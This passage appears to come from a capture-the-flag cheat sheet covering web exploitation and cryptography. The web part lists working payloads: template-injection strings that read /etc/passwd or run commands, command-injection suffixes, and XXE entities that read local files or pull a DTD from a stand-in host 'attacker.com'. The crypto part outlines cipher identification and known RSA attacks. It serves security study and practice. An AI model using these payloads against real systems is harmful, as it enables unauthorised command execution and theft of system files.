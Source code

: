     - Jinja2: `{{ 7\*7 }}`, `{{ config.items() }}`, `{{ self.\__init_\_._\_globals_\_._\_builtins_\_.open('/etc/passwd').read() }}`
    - FreeMarker: `&lt;#assign ex="freemarker.template.utility.Execute"?new()&gt;${ ex("id") }`
- **Command Injection:**
  - `| id`, `; id`, `&& id`, `$(id)`
  - `?host=127.0.0.1; ls -la`
- **XML External Entity (XXE) Injection:**
  - `&lt;!DOCTYPE foo \[ <!ENTITY xxe SYSTEM "file:///etc/passwd"&gt; \]>&lt;foo&gt;&xxe;&lt;/foo&gt;`
  - `&lt;!DOCTYPE foo \[ <!ENTITY xxe SYSTEM "http://attacker.com/evil.dtd"&gt; \]>&lt;foo&gt;&xxe;&lt;/foo&gt;`
- **Insecure Deserialization:**
  - Identify language/framework (Java, PHP, Python, .NET).
  - Generate payloads with tools like ysoserial (Java), PHPGGC (PHP).
- **Authentication/Authorization Bypass:**
  - Weak passwords, default credentials.
  - Parameter tampering (e.g., `?user_id=1` to `?user_id=admin_id`).
  - JWT issues (none algorithm, weak secret, signature stripping).
  - IDOR (Insecure Direct Object References).
- **Directory Traversal:** See LFI.
- **File Upload Vulnerabilities:**
  - Bypass extension filters (e.g., shell.php.jpg, shell.pHp).
  - Content-Type manipulation.
  - Magic byte manipulation.
  - Race conditions.
- **Prototype Pollution (JavaScript):**
  - `?\__proto_\_\[isAdmin\]=true`
- **GraphQL Exploitation:**
  - Introspection queries.
  - Batching attacks.
  - Authorization bypass through nested queries.

#### **B. Cryptography**

**Initial Steps:**

1. **Identify the Cipher/Encoding:**
    - **Encoding:** Base64 (A-Za-z0-9+/=), Base32, Hex (0-9a-fA-F), URL encoding (%xx), Binary, Morse code.
    - **Classical Ciphers:** Caesar (shift), Atbash (reverse alphabet), Vigenere (keyword), Substitution (monoalphabetic/polyalphabetic).
    - **Modern Ciphers:** AES, DES, RSA (look for public keys, moduli, exponents).
    - **Hashing:** MD5, SHA1, SHA256 (fixed length, one-way). Often involves cracking or finding collisions.
2. **Analyze Provided Data:**
    - Ciphertext, key (partial or full), encryption/decryption script, hints.
    - Frequency analysis for classical ciphers (e.g., 'e' is most common in English).

**Common Tactics & Techniques:**

- **Encoding/Decoding:**
  - CyberChef is invaluable. Try "Magic" recipe.
  - Python: `import base64; base64.b64decode(data)`
- **Classical Ciphers:**
  - **Caesar:** Brute-force all 25 shifts.
  - **Vigenere:** Identify key length (Kasiski examination, Friedman test), then frequency analysis per key letter.
  - **Substitution:** Frequency analysis, pattern words.
- **RSA:**
  - **Small** e **(e.g., 3, 5):** If m^e < n, then m = c^(1/e).
  - **Factoring** n **:** yafu, factordb.com. If n is small or has common factors.
  - **Wiener's Attack:** Small private exponent d.
  - **Hastad's Broadcast Attack:** Same message encrypted with same small e under different n.
  - **Common Modulus Attack:** Same n, different e, same message.
  - **Faulty Padding (PKCS#1 v1.5):** Bleichenbacher's attack.